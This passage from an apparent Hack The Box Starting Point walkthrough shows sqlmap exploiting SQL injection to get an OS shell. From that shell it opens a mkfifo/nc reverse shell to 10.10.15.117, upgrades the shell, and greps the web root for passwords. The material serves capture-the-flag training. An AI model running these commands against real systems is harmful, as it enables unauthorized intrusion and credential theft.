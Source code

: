    Paste the above request into a new file `new.req`

   ```bash
   vi new.req
   ```

9. Now try `sqlmap`

   ```bash
   sqlmap -r new.req
   ```

   ![](../assets/img/htb-starting-point/47.png)

   From the above results, `sqlmap` provides the possible SQLi payload

10. Now try to get the interactvie shell

    ```bash
    sqlmap -r new.req --os-shell
    ```

    Then we would get the shell, and run `ls`, `whoami `, etc.

11. To get a more stable shell, we would like to create a **reverse shell** via this shell. Type the following command on the `os-shell>` shell, `nc -lvnp 1337` listen on local machine **first**

    ```bash
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.117 1337 >/tmp/f
    ```

12. Upgrade the shell

    ```bash
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    # Ctrl-Z
    stty raw -echo; fg
    # Enter
    export TERM=xterm-256color
    # Enter
    ```
    
13. We would always interested on the souce code of the webpage

    ```bash
    cd /var/www/html; grep -i -R "pass" *
    ```
